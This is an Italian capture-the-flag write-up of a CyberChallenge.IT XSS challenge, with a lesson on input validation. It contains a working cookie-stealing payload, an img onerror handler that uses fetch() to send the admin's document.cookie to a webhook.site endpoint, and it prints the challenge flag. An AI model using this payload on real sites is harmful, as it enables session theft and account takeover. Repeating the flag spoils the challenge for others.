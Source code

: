 # Writeup: WS_3.02 - XSS Simple 2

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 485  
- **Stato**: Down (last checked: 6 minutes ago)  
- **URL**: [http://xss2.challs.cyberchallenge.it/](http://xss2.challs.cyberchallenge.it/)

## Descrizione 📝
Seconda sfida della serie di 5 challenge incentrate su **XSS**. L’obiettivo rimane quello di rubare il cookie dell’admin, inviandogli un link malevolo tramite il form di “report”. In questa sfida, la pagina tenta di caricare un’immagine con il nome fornito dal parametro `html`.

### Dinamica della Pagina
1. L’utente fornisce un valore per il parametro `html`.  
2. La pagina prova a caricare un’immagine con quel nome, ad esempio:  
   ```
   http://xss2.challs.cyberchallenge.it/?html=ciao
   ```
   genera la richiesta di un’immagine `http://xss2.challs.cyberchallenge.it/ciao`, che non esiste e produce un **404**.

## Soluzione 🎯

### 1. Exploit con `<img>` e `onerror`
Utilizziamo l’evento `onerror` di un tag `<img>` per eseguire JavaScript in caso di errore (immagine non trovata). Ad esempio:
```html
<img src="x" onerror="alert('XSS');">
```
Invece di `alert()`, possiamo eseguire un fetch verso un nostro endpoint (webhook) inviando il `document.cookie`.

### 2. Preparazione del Webhook
Creiamo un endpoint su [Webhook.site](https://webhook.site/) o servizio simile per ricevere i dati. Otterremo un URL univoco (ad esempio `https://webhook.site/7abedc77-d3eb-4ea9-8a94-f613d72088c8`).

### 3. Payload Finale
Nel form di “report”, costruiamo un URL che includa il nostro payload:
```
http://xss2.challs.cyberchallenge.it/report?url=http://xss2.challs.cyberchallenge.it/?html=<img src="x" onerror="fetch('https://webhook.site/7abedc77-d3eb-4ea9-8a94-f613d72088c8', {method: 'POST', body: document.cookie})">
```
In questo modo, quando l’admin carica il link segnalato, il browser tenterà di caricare un’immagine `x` (inesistente), genererà un errore e attiverà `onerror`, inviando il cookie dell’admin al nostro webhook tramite `fetch()`.

### 4. Raccolta della Flag
Controllando i log del webhook, vedremo una richiesta con il `document.cookie`, contenente la flag:

## Flag 🏁
```
CCIT{2c161cc0bca1642c0357385e721b1e98}
```

## Lezioni Apprese 📚
1. **XSS tramite `<img onerror>`**: Un classico vettore per eseguire JavaScript in caso di mancato caricamento di un’immagine.  
2. **Payload con `fetch()`**: Alternativa moderna a `document.location` o `XMLHttpRequest` per inviare dati a un endpoint esterno.  
3. **Validazione di Parametri**: Se la pagina carica risorse basate su input non sanitizzato, diventa facile iniettare script malevoli.

## Tools Utilizzati 🛠️
- **Browser Web**: Per costruire e testare il payload.  
- **Webhook.site**: Per ricevere i cookie dell’admin.  
- **Dev Tools**: Per monitorare le richieste e le risposte HTTP.

---

*Writeup by Luca Crippa - Last Updated: 2024*
